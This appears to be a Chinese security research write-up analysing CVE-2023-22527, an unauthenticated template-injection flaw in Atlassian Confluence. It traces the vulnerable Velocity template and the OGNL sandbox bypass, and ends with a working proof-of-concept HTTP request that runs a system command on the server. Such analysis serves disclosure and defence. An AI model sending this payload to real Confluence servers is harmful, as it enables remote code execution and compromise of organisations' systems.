



# 奇安信攻防社区-Atlassian Confluence 模板注入代码执行漏洞（CVE-2023-22527）

### Atlassian Confluence 模板注入代码执行漏洞（CVE-2023-22527）

（CVE-2023-22527）Atlassian Confluence 模板注入代码执行漏洞代码级分析，内含 poc

作者：Le1a@threatbook  
校验：jweny@threatbook

# 漏洞描述

Atlassian Confluence 是一款由 Atlassian 开发的企业团队协作和知识管理软件，提供了一个集中化的平台，用于创建、组织和共享团队的文档、知识库、项目计划和协作内容。

攻击者可在无需登录的情况下，利用该漏洞构造恶意请求，导致远程代码执行。

# 影响版本

-   8.5.0 ≤ version ≤ 8.5.3
-   8.0.x, 8.1.x, 8.2.x, 8.3.x, 8.4.x

# 漏洞成因

在 Confluence 中，.vm 文件是使用 Velocity 模板语言创建的模板文件。Velocity 是一个基于 Java 的模板引擎，它允许你使用简单的标记语言来引用 Java 对象和方法，从而动态生成 HTML、XML 或任何文本格式的内容。

处理.vm 文件的主要类是 ConfluenceVelocityServlet。这个 Servlet 负责接收和处理来自浏览器的请求，加载和解析.vm 模板，执行其中的 Velocity 代码，然后将生成的 HTML 发送回浏览器。

这次的漏洞点位于：/template/aui/text-inline.vm 文件，可以直接通过/template/aui/text-inline.vm 访问

```java
#set( $labelValue = $stack.findValue("getText('$parameters.label')") )
#if( !$labelValue )
    #set( $labelValue = $parameters.label )
#end

#if (!$parameters.id)
    #set( $parameters.id = $parameters.name)
#end

<label id="${parameters.id}-label" for="$parameters.id">
$!labelValue
#if($parameters.required)
    <span class="aui-icon icon-required"></span>
    <span class="content">$parameters.required</span>
#end
</label>

#parse("/template/aui/text-include.vm")
```

`$stack.findValue("getText('$parameters.label')")`意味着从请求中获取的 label 参数的值传入了`$stack.findValue`，由此可以判断这里存在模版注入

# 代码分析

.vm 文件由`ConfluenceVelocityServlet`处理


继续跟进

```java
protected void doRequest(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    try {
        // 创建一个上下文对象，可能用于存储请求和响应的信息
        Context context = this.createContext(request, response);
        // 设置 HTTP 响应的内容类型
        this.setContentType(request, response);
        // 处理 HTTP 请求，返回一个模板对象
        Template template = this.handleRequest(request, response, context);
        // 如果没有获取到模板，直接结束方法
        if (template == null) {
            return;
        }
        // 如果获取到了模板，将模板和上下文合并，并将结果写入响应
        this.mergeTemplate(template, context, response);
    }
    // 其他代码...
}
```

这里跟进`handleRequest()`，可以发现从 URI 中获取 vm 文件路径，传入`getTemplate()`来返回模版对象


然后传入`mergeTemplate()`函数处理



```java
protected void mergeTemplate(Template template, Context context, HttpServletResponse response) throws ResourceNotFoundException, ParseErrorException, MethodInvocationException, IOException, UnsupportedEncodingException, Exception {
    // 获取当前的 PageContext 对象
    PageContext oldPageContext = ServletActionContext.getPageContext();
    // 获取默认的 JSP 工厂
    JspFactory jspFactory = JspFactory.getDefaultFactory();
    // 从上下文中获取 HttpServletRequest 对象
    HttpServletRequest request = (HttpServletRequest)context.get("request");
    // 根据当前的 Servlet、请求和响应创建一个新的 PageContext 对象
    PageContext pageContext = jspFactory.getPageContext(this, request, response, (String)null, true, 8192, true);
    // 获取当前的 ActionContext 对象
    ActionContext actionContext = ActionContext.getContext();
    // 将新创建的 PageContext 对象放入 ActionContext 中
    actionContext.put("com.opensymphony.xwork2.dispatcher.PageContext", pageContext);
    Writer writer = null;
    try {
        // 获取 PageContext 的输出流
        writer = pageContext.getOut();
        // 将模板和上下文合并，结果写入到输出流中
        template.merge(context, writer);
    }
    // 其他代码...
    }
```

这里创建新的 PageContext，获取其输出流，准备进行模板合并和输出操作。

继续跟进`template.merge()`


跟进到 merge 的重载函数

```java
public void merge(Context context, Writer writer, List macroLibraries) throws ResourceNotFoundException, ParseErrorException, MethodInvocationException, IOException {
        if (this.errorCondition != null) {
            throw this.errorCondition;
        } else if (this.data == null) {
            String msg = "Template.merge() failure. The document is null, most likely due to parsing error.";
            throw new RuntimeException(msg);
        } else {
            InternalContextAdapterImpl ica = new InternalContextAdapterImpl(context);
            ica.setMacroLibraries(macroLibraries);
            if (macroLibraries != null) {
                for(int i = 0; i < macroLibraries.size(); ++i) {
                    try {
                        this.rsvc.getTemplate((String)macroLibraries.get(i));
                    } catch (ResourceNotFoundException var13) {
                        this.rsvc.getLog().error("template.merge(): cannot find template " + (String)macroLibraries.get(i));
                        throw var13;
                        } catch (ParseErrorException var14) {
                        this.rsvc.getLog().error("template.merge(): syntax error in template " + (String)macroLibraries.get(i) + ".");
                        throw var14;
                    } catch (Exception var15) {
                        throw new RuntimeException("Template.merge(): parse failed in template  " + (String)macroLibraries.get(i) + ".", var15);
                    }
                }
            }

            try {
                ica.pushCurrentTemplateName(this.name);
                ica.setCurrentResource(this);
                ((SimpleNode)this.data).render(ica, writer);
            } finally {
                ica.popCurrentTemplateName();
                ica.setCurrentResource((Resource)null);
            }

        }
    }
```

由于传入的 macroLibraries 为空，所以直接执行 try 逻辑

1.  调用 `ica.pushCurrentTemplateName(this.name);` 将当前模板的名称压入到 `ica` 的模板名堆栈中。这是为了在嵌套模板的情况下能够追踪到当前正在处理的模板名称。
2.  调用 `ica.setCurrentResource(this);` 将当前模板对象设置为 `ica` 的当前资源。这是为了让 `ica` 知道当前正在处理的模板资源。
3.  最后，通过调用 `((SimpleNode)this.data).render(ica, writer);` 进行模板渲染

省略中间的部分渲染过程，跟进到`ASTReference#execute()`


这里从上下文中获取 OgnlValueStack，继续跟进




这里从请求中获取到参数，然后通过`Object obj = method.invoke(o, params);`执行，继续跟进



经过几层 invoke 调用后，来到了最终 vm 文件模版的位置——`OgnlValueStack.findValue()`


随后，传给 label 参数的 OGNL 表达式语句被执行


# 如何构造 RCE

由这篇文章可得知：[https://github.blog/2023-01-27-bypassing-ognl-sandboxes-for-fun-and-charities/?ref=blog.projectdiscovery.io#strutsutil:~:text=(PageContextImpl)-,For%20Velocity%3A,-.KEY\_velocity.struts2.context](https://github.blog/2023-01-27-bypassing-ognl-sandboxes-for-fun-and-charities/?ref=blog.projectdiscovery.io#strutsutil:~:text=(PageContextImpl)-,For%20Velocity%3A,-.KEY_velocity.struts2.context)

对于 Velocity 模版引擎，可以使用如下方法：

-   `.KEY_velocity.struts2.context` -> (`StrutsVelocityContext`)
    -   `ognl` (`org.apache.struts2.views.jsp.ui.OgnlTool`)
    -   `struts` (`org.apache.struts2.views.velocity.result.VelocityStrutsUtils`)

org.apache.struts2.views.jsp.ui.OgnlTool 类在没有 OgnlContext 的情况下调用了 Ognl.getValue()。需要注意的是，该类属于 OGNL 库，而不是 Struts 的一部分。因此，这个"findValue"调用在 Struts 的沙箱限制之外运行。


# 复现过程

1.  网站首页如下图：


2.  使用如下 POC 进行漏洞复现

```http
POST /template/aui/text-inline.vm HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded

label=aaa\u0027%2b#request.get(\u0027.KEY_velocity.struts2.context\u0027).internalGet(\u0027ognl\u0027).findValue(#parameters.poc[0],{})%2b\u0027&poc=@org.apache. struts2.ServletActionContext@getResponse().setHeader('Cmd-Responses-Header',(new freemarker.template.utility.Execute()).exec({"id"}))
```


